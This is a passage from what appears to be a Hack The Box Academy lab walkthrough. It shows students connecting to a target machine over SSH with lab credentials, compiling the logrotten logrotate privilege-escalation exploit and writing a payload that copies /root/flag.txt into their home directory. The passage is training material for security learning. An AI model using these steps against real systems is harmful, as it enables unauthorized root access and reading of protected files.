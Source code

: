 Then, students need to connect to the spawned target machine using `SSH` and the credentials `htb-student:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh htb-student@STMIP
```

```
┌─[eu-academy-1]─[10.10.15.63]─[htb-ac-594497@htb-h5qyjhxa2m]─[~]
└──╼ [★]$ ssh htb-student@10.129.204.41

The authenticity of host '10.129.204.41 (10.129.204.41)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.204.41' (ECDSA) to the list of known hosts.
htb-student@10.129.204.41's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.19.0-051900-generic x86_64)

<SNIP>

htb-student@ubuntu:~$ 
```

Upon connecting, students need to navigate into the newly transferred directory, compiling the `logrotten.c` file into an executable:

Code: shell

```shell
cd logrotten/
ls
gcc -o logrotten logrotten.c
chmod +x logrotten
```

```
htb-student@ubuntu:~$ cd logrotten/
htb-student@ubuntu:~/logrotten$ ls

README.md  logrotten.c  logrotten.png  test

htb-student@ubuntu:~/logrotten$ gcc -o logrotten logrotten.c
htb-student@ubuntu:~/logrotten$ chmod +x logrotten
```

Subsequently, students need to write a payload to write the contents of `/root/flag.txt` to a file in their home directory:

Code: shell

```shell
echo "cat /root/flag.txt > /home/htb-student/flag.txt" > payload
```

```
htb-student@ubuntu:~/logrotten$ echo "cat /root/flag.txt > /home/htb-student/flag.txt" > payload
```
